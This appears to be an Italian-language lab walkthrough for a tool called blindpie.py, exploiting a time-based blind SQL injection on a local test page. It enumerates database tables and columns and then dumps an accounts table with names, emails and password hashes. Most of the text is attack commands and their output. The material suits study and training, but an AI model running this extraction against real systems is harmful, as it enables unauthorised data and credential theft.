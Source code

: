 # Time-Based Blind

1. Esamino i parametri della richiesta GET:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get test --test
    ```

    Lo script rileva che `email` sia vulnerabile.

2. Ottengo le prime righe di `information_schema.tables`:

    ```
    python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T10 attack --table information_schema.tables --column table_name --param email --row 0 --rows 120
    ```

    Tra le righe compare la tabella `accounts`.

3. Ottengo le prime righe di `information_schema.columns`:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T5 attack --table information_schema.columns --column "concat(table_name, char(32), column_name)" --param email --row 0 --rows 50
    ```

    Nota: char(32) corrisponde al carattere 'spazio'.

    Ogni riga ritornata dallo script è una coppia `(table_name, column_name)`. Cercando le righe in cui compare la tabella `accounts` si determinano i nomi delle sue colonne.

4.  Estraggo tutti i dati della `accounts`:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T10 attack --table accounts --column "concat(id, char(32), first_name, char(32), last_name, char(32), email, char(32), password)" --param email --row 0 --rows 10
    ```

    Output:

    ```
    ...
    > RESULTS:
    1 Arthur Dent arthur@guide.com d00ee262cdcbe7543210bb85f6f1cac257b4e994
    2 Ford Prefect ford@guide.com 30f5cc99c17426a0d28acf8905c6d776039ad022
    3 Tricia McMillan tricia@guide.com bcb3358e273b5772ee0ae1799b612e13cc726b04
    4 Zaphod Beeblebrox zaphod@guide.com 0c38530eaca4dbc0f49c459c0c52b362f14215c3
    ...
    ```
